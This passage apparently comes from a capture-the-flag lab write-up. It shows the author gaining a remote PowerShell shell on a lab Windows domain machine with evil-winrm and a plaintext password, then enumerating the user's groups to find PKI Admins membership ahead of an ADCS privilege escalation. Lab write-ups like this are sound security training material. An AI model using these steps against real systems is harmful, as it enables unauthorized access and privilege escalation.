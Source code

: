 Using `evil-winrm`, I got a shell as e.black.

```powershell
❯ evil-winrm -i 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\e.black\Documents> whoami
coder\e.black
*Evil-WinRM* PS C:\Users\e.black\Documents>
```

---

## Vertical Privilege Escalation

---

E.Black is part of the `Coder\PKI Admins` group. The group seems to be used for ADCS Certificate and Template Management.

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CODER\PKI Admins                            Group            S-1-5-21-2608251805-3526430372-1546376444-2101 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

